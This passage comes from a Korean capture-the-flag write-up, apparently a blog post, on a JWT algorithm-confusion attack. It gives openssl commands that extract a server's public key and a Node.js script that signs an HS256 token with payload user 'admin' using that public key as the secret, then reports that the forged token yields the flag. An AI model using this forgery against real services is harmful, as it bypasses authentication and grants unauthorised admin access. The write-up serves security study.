 ```bash
openssl s_client -connect {URL} 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > pubkey.pem

openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem

openssl rsa -inform PEM -in pubkey.pem -pubin -RSAPublicKey_out -outform PEM > pubkey.rsa
```

```javascript
const fs = require('fs');
const jwt = require('jsonwebtoken');

// Read the public key
const publicKey = fs.readFileSync('pubkey.rsa', 'utf8');

// Define the payload
const payload = {
  user: 'admin'
};

const signAlg = { algorithm:'HS256' }

// Sign the JWT
const token = jwt.sign(payload, publicKey, signAlg);

console.log('JWT:', token);
```

이후 `node index.js`를 통해 새롭게 발급된 JWT 토큰을 이용하여 인증을 시도하면 아래와 같이 FLAG가 나오는 것을 확인할 수 있다.


<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/61f1732a-3cf5-4b46-bd94-4748fdafba43" width = 850>
</p>

* **참고** : [https://velog.io/@thelm3716/JWTvul](https://velog.io/@thelm3716/JWTvul)

* **참고** : [https://redfoxsec.com/blog/jwt-deep-dive-into-algorithm-confusion/](https://redfoxsec.com/blog/jwt-deep-dive-into-algorithm-confusion/)

* **참고** : [https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)